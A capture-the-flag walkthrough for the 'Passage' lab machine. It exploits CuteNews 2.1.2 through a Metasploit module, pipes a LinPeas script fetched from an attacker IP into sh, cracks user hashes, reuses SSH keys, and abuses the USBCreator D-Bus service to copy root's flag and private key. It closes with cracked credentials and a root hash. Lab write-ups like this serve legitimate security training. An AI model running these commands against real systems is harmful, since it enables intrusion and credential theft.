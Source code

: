 # Passage 

### Initial recon
From the nmap scan we get only two ports: 22(SSH) and 80(WEB)

### Getting the foothold
On the port 80 it seems that we have a news website that uses a Fail2Ban to prevent denial of service. With this in mind we can't run a web-recon tool like gobuster or wfuzz. But we get an information on the footer that this website runs `CuteNews`. There a quite a few vulnerable exploits and a metasploit module. 
In order to find the version of we can access `http://passage.htb/CuteNews` from which we get `Powered by CuteNews 2.1.2 © 2002–2020 CutePHP`.
Fire up the metasploit and trying to launch the module `exploits/unix/webapp/cutenews_avatar_rce` we get an error, that has a solution on the offical github page [Cannot load new module to metasploit- CuteNews 2.1.2](https://github.com/rapid7/metasploit-framework/issues/13246).
Now we just need to create a new account on the website [CuteNews - Register](http://passage.htb/CuteNews/?register) & setup the credentials for the exploit. 
We got the shell as **www-data**

### Privesc from www-data to paul

At first I want to make the shell interactive so I've switched form meterpreter shell to /bin/bash using `execute -f /bin/bash -i -H` and spawned a python shell `python3 -c 'import pty; pty.spawn("/bin/bash")'`.
Now that we have everything setup we can fireup the LinPeas script using `curl http://10.10.x.x/LinPeas.sh |sh > /tmp/log.txt`. This gave me the hint that CuteNews doesn't use a database and have everything setup in base64 and PHP serialized objects that can be found in `/var/www/html/CuteNews/cdata/users/`. From a quick list of elements I get that `lines` contains all files from the database. Here we get 4 hashes but only two can be cracked (atlanta1 and egre55). 
We got the user **paul**, and we can always login using `ssh -i PaulRSA paul@passage.htb`.

### Privesc from paul to nadav
At first I was relieved to see that paul has it s own ssh key and I downloaded it to get redundancy. But after trying to enum everything I just tried to ssh into **nadav** using **paul**'s ssh key. And it worked... how dumb was that. Now we can also do `ssh -i PaulRSA nadav@passage.htb`

### Getting the root
Well after some more enum I've found that under the `/home/nadav/.viminfo` that interesting file `/etc/dbus-1/system.d/com.ubuntu.USBCreator.conf` which at first doesn't reveal any sensitive information, but after a brief google search we get to this [article](https://unit42.paloaltonetworks.com/usbcreator-d-bus-privilege-escalation-in-ubuntu-desktop/). Now typing the command `gdbus call --system --dest com.ubuntu.USBCreator --object-path /com/ubuntu/USBCreator --method com.ubuntu.USBCreator.Image /root/root.txt /a.txt true` we get the flag. 
Further more, if I got the root ssh keys using `gdbus call --system --dest com.ubuntu.USBCreator --object-path /com/ubuntu/USBCreator --method com.ubuntu.USBCreator.Image /root/.ssh/id_rsa /a.txt true` and now we have redundancy. 

PWNED <3

### Credentials & Hashes

- paul:atlanta1 (e26f3e86d1f8108120723ebe690e5d3d61628f4130076ec6cb43f16f497273cd)
- $6$mjc8Tvgr$L56bn5KQDtOyKRdXBTL4xcmT7FVWJbds.Fo0FVc11PWliaNu5ASAxKzaEddyaYGMxGQPUNo5UpxT/nawzS8TW0 (root hash)